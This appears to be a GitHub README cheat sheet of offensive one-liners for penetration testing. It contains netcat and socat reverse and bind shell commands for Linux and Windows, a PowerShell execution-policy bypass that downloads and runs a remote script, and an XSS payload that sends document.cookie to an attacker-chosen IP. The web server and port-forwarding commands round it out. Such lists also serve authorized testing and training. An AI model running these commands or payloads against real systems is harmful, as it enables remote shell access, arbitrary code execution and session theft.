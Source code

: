 # tools

## Reverse Shells
Recipes for reverse shells from A to target B:

### Netcat
A: `nc -nlvp 4444`  
B (Linux): `nc -nv $A_IP $PORT -e /bin/bash`  
B (Windows): `nc -nv $A_IP $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat -d -d TCP4-LISTEN:$PORT STDOUT`  
B (Linux): `socat TCP4:$A_IP:$PORT EXEC:/bin/bash`  
B (Windows): `socat TCP4:$A_IP:4433 EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat -d -d OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork STDOUT`  
B (Linux): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:/bin/bash`  
B (Windows): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:'cmd.exe',pipes`  

## Bind Shells
Recipes for bind shells from A to target B:  

### Netcat
A: `nc -nv $B_IP $PORT`  
B (Linux): `nc -nlvp $PORT -e /bin/bash`  
B (Windows): `nc -nlvp $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat - TCP4:$B_IP:$PORT`  
B (Linux): `socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash`  
B (Windows): `socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat - OPENSSL:$B_IP:$PORT,verify=0 STDOUT`  
B machine (Linux): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:/bin/bash`  
B machine (Windows): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:'cmd.exe',pipes`  

## Self-Signed SSL Certificate
`openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 10 -out cert.crt && cat cert.key cert.crt > cert.pem`  

## Web Servers

### Python
2: `python -m SimpleHTTPServer $PORT`  
3: `python -m http.server $PORT`  

### PHP
`php -S 0.0.0.0:$PORT`

### Ruby
`ruby -run -e httpd . -p $PORT`

### Busybox
`busybox httpd -f -p $PORT`

## Proxy Traffic

### Windows
Forward traffic from SOURCE_PORT on SOURCE_ADDRESS to TARGET_PORT on TARGET_ADDRESS.  
`netsh interface portproxy add v4tov4 listenport=$SOURCE_PORT listenaddress=$SOURCE_ADDRESS connectaddress=$TARGET_ADDRESS connectport=$TARGET_PORT`

## Misc
### Run powershell script from remote web server
`powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://web-server-ip/script.ps1')`

### Get Public IP
To get your public IP address on Linux run `dig +short myip.opendns.com @resolver1.opendns.com`  

### Steal Cookies
`<script>new Image().src="http://IP/random.jpg?output="+document.cookie;</script>`

